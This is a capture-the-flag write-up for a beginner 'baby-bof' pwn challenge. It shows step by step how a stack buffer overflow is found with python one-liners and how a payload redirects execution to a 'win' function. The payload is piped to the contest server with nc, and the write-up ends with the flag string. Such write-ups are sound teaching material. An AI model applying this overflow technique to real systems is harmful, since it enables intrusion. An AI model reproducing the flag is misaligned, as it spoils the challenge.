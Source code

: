 # baby-bof
This is your first pwn challenge.

- This was the easier because it was just a ``buffer overflow`` type of pwn.

- A bit of reverse we are just inspecting what are we dealing with:

# Main
![main](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/main.png)

# Vuln
![vuln](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/vuln.png)

# Win
![win-func](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/win-fun.png)

- We see that variable ``local_48`` has a limit of 64, but the program can read max of 0x100 (256 decimal) bytes.
- At this point we just need to write a python script to overwhelm the variable and redirect the flow to any function we want.

- Let's start with attaching gdb to the program:

![gdb](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/gdb.png)

- Then we execute a python code to see how the program reacts with 63 A's:

![63a](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/63a.png)

```python
python3 -c "import sys; sys.stdout.buffer.write(b'A'*63)"
```

- Seems like the program didn't crash so we are at the limit. Let's change a bit and add some B's:

![63a10b](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/63a10b.png)

```python
python3 -c "import sys; sys.stdout.buffer.write(b'A'*63 + b'B'*10)"
```

- Oh, we got a crash. Did we manage to control the flow? Let's add some C's just to be sure:

![63a10b5c](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/64a9b5c.png)

```python
python3 -c "import sys; sys.stdout.buffer.write(b'A'*63 + b'B'*10 + b'C'*5)"
```

- Bingo! Now we control the flow and we can see by the address ``0x43434343434...`` which is the ascii code of the letter ``C``. But something is not right, because we don't have a clean address of 43's, so in that matter let's substract a B to see if something changes.

![63a9b5c](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/64a9b5c.png)

```python
python3 -c "import sys; sys.stdout.buffer.write(b'A'*63 + b'B'*9 + b'C'*5)"
```

- There we go! now all we have to do just to pass the address of the function we want to access, which is going to be ``win``.
- But first we need to tranform it from Big Edian to Little Edian, which is going to be a "reversed" version of the address:

![win](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/win.png)

- Big Edian:
```
0x40 0x11 0x96
```
- Little Edian:
```
0x96 0x11 0x40
```

- Now let's test our final script:

![63a9bwinaddr](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/63a9bwin_address.png)

```python
python3 -c "import sys; sys.stdout.buffer.write(b'A'*63 + b'B'*9 + b'\x96\x11\x40')"
```

- GG! We succesfully called ``win``. Let's do a final step and pass it to the ``nc`` to get our flag:

![final](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/final.png)

```python
python3 -c "import sys; sys.stdout.buffer.write(b'A'*63 + b'B'*9 + b'\x96\x11\x40')" | nc ctf.ac.upt.ro 9796
```

- Flag: ctf{3c1315f63d550570a690f693554647b7763c3acbc806ae846ce8d25b5f364d10}
